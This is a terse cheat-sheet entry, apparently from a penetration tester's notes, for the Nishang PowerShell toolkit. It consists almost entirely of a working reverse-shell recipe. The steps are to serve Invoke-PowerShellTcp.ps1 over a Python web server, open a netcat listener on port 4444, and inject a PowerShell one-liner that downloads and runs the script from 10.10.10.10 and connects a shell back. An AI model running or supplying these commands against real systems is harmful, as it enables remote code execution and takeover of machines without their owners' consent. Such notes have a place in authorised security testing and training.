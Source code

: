 # Nishang

[Nishang](https://github.com/samratashok/nishang)

Open web server with Invoke-PowerShellTcp.ps1
```shell
python3 -m http.server 80
```

Open listener
```shell
nc -nlvp 4444
```

Code to inject
```shell
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.10.10:80/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.10.10 -Port 4444
```

